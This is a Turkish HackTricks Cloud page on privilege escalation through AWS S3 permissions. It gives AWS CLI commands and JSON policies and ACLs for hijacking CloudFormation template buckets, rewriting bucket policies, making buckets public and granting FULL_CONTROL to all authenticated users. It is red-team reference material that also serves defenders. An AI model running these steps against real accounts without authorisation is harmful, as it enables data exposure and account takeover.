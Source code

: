 # AWS - S3 Privesc

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**'i takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}

## S3

### `s3:PutBucketNotification`, `s3:PutObject`, `s3:GetObject`

İlgili bucket'lar üzerinde bu izinlere sahip bir saldırgan, kaynakları ele geçirip ayrıcalıkları artırabilir.

Örneğin, "cf-templates-nohnwfax6a6i-us-east-1" adlı bir cloudformation bucket'ı üzerinde bu **izinlere sahip bir saldırgan**, dağıtımı ele geçirebilir. Erişim, aşağıdaki politika ile verilebilir:
```json
{
"Version":"2012-10-17",
"Statement":[
{
"Effect":"Allow",
"Action":[
"s3:PutBucketNotification",
"s3:GetBucketNotification",
"s3:PutObject",
"s3:GetObject"],
"Resource":[
"arn:aws:s3:::cf-templates-*\/*",
"arn:aws:s3:::cf-templates-*"]
},
{
"Effect":"Allow",
"Action":"s3:ListAllMyBuckets",
"Resource":"*"
}]
}
```
Ve ele geçirme, **şablonun yüklendiği andan** **şablonun dağıtıldığı ana** kadar olan **küçük bir zaman penceresi** olduğu için mümkündür. Bir saldırgan, hesabında **bir lambda fonksiyonu** oluşturabilir ve bu fonksiyon **bir bucket bildirimi gönderildiğinde tetiklenir** ve **o bucket'ın** **içeriğini ele geçirir**.

![](<../../../.gitbook/assets/image (174).png>)

Pacu modülü [`cfn__resouce_injection`](https://github.com/RhinoSecurityLabs/pacu/wiki/Module-Details#cfn__resource_injection) bu saldırıyı otomatikleştirmek için kullanılabilir.\
Daha fazla bilgi için orijinal araştırmaya bakın: [https://rhinosecuritylabs.com/aws/cloud-malware-cloudformation-injection/](https://rhinosecuritylabs.com/aws/cloud-malware-cloudformation-injection/)

### `s3:PutObject`, `s3:GetObject` <a href="#s3putobject-s3getobject" id="s3putobject-s3getobject"></a>

Bunlar **S3'e nesne yüklemek ve almak için** izinlerdir. AWS içindeki (ve dışındaki) çeşitli hizmetler, **konfigürasyon dosyalarını** depolamak için S3 depolamasını kullanır.\
Onlara **okuma erişimi** olan bir saldırgan, üzerinde **hassas bilgiler** bulabilir.\
Onlara **yazma erişimi** olan bir saldırgan, **verileri değiştirerek bazı hizmetleri kötüye kullanabilir ve ayrıcalıkları artırmaya çalışabilir**.\
Bunlar bazı örneklerdir:

* Eğer bir EC2 örneği **kullanıcı verilerini bir S3 bucket'ında** depoluyorsa, bir saldırgan bunu **EC2 örneği içinde rastgele kod çalıştırmak için değiştirebilir**.

### `s3:PutBucketPolicy`

Aynı hesapta olması gereken bir saldırgan, aksi takdirde `Belirtilen yöntem izin verilmedi` hatası tetiklenecektir, bu izinle kendisine bucket'lar üzerinde daha fazla izin verebilir, böylece bucket'ları okuma, yazma, değiştirme, silme ve ifşa etme yetkisine sahip olur.
```bash
# Update Bucket policy
aws s3api put-bucket-policy --policy file:///root/policy.json --bucket <bucket-name>

## JSON giving permissions to a user and mantaining some previous root access
{
"Id": "Policy1568185116930",
"Version":"2012-10-17",
"Statement":[
{
"Effect":"Allow",
"Principal":{
"AWS":"arn:aws:iam::123123123123:root"
},
"Action":"s3:ListBucket",
"Resource":"arn:aws:s3:::somebucketname"
},
{
"Effect":"Allow",
"Principal":{
"AWS":"arn:aws:iam::123123123123:user/username"
},
"Action":"s3:*",
"Resource":"arn:aws:s3:::somebucketname/*"
}
]
}

## JSON Public policy example
### IF THE S3 BUCKET IS PROTECTED FROM BEING PUBLICLY EXPOSED, THIS WILL THROW AN ACCESS DENIED EVEN IF YOU HAVE ENOUGH PERMISSIONS
{
"Id": "Policy1568185116930",
"Version": "2012-10-17",
"Statement": [
{
"Sid": "Stmt1568184932403",
"Action": [
"s3:ListBucket"
],
"Effect": "Allow",
"Resource": "arn:aws:s3:::welcome",
"Principal": "*"
},
{
"Sid": "Stmt1568185007451",
"Action": [
"s3:GetObject"
],
"Effect": "Allow",
"Resource": "arn:aws:s3:::welcome/*",
"Principal": "*"
}
]
}
```
### `s3:GetBucketAcl`, `s3:PutBucketAcl`

Bir saldırgan, bu izinleri **belirli kovalar üzerinde daha fazla erişim sağlamak için** kötüye kullanabilir.\
Saldırganın aynı hesapta olması gerekmediğini unutmayın. Ayrıca yazma erişimi
```bash
# Update bucket ACL
aws s3api get-bucket-acl --bucket <bucket-name>
aws s3api put-bucket-acl --bucket <bucket-name> --access-control-policy file://acl.json

##JSON ACL example
## Make sure to modify the Owner’s displayName and ID according to the Object ACL you retrieved.
{
"Owner": {
"DisplayName": "<DisplayName>",
"ID": "<ID>"
},
"Grants": [
{
"Grantee": {
"Type": "Group",
"URI": "http://acs.amazonaws.com/groups/global/AuthenticatedUsers"
},
"Permission": "FULL_CONTROL"
}
]
}
## An ACL should give you the permission WRITE_ACP to be able to put a new ACL
```
### `s3:GetObjectAcl`, `s3:PutObjectAcl`

Bir saldırgan, bu izinleri kullanarak belirli nesneler üzerinde daha fazla erişim sağlamak için kötüye kullanabilir.
```bash
# Update bucket object ACL
aws s3api get-object-acl --bucket <bucekt-name> --key flag
aws s3api put-object-acl --bucket <bucket-name> --key flag --access-control-policy file://objacl.json

##JSON ACL example
## Make sure to modify the Owner’s displayName and ID according to the Object ACL you retrieved.
{
"Owner": {
"DisplayName": "<DisplayName>",
"ID": "<ID>"
},
"Grants": [
{
"Grantee": {
"Type": "Group",
"URI": "http://acs.amazonaws.com/groups/global/AuthenticatedUsers"
},
"Permission": "FULL_CONTROL"
}
]
}
## An ACL should give you the permission WRITE_ACP to be able to put a new ACL
```
### `s3:GetObjectAcl`, `s3:PutObjectVersionAcl`

Bu yetkilere sahip bir saldırganın belirli bir nesne sürümüne Acl koyabilmesi beklenmektedir.
```bash
aws s3api get-object-acl --bucket <bucekt-name> --key flag
aws s3api put-object-acl --bucket <bucket-name> --key flag --version-id <value> --access-control-policy file://objacl.json
```
{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Eğitim AWS Kırmızı Takım Uzmanı (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Eğitim GCP Kırmızı Takım Uzmanı (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**'i takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}
